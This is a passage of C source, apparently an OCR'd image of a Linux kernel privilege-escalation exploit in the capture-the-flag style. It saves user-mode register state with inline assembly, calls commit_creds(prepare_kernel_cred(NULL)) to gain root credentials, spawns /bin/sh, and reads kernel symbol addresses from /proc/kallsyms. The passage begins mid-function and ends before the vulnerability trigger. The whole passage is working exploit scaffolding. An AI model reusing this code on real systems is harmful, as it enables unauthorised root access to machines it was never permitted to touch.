 ```c
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootPrivilige(void)
{
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

void getRootShell(void)
{   
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

int main(void)
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();

    //get the addr
    FILE* sym_table_fd = fopen("/proc/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }

```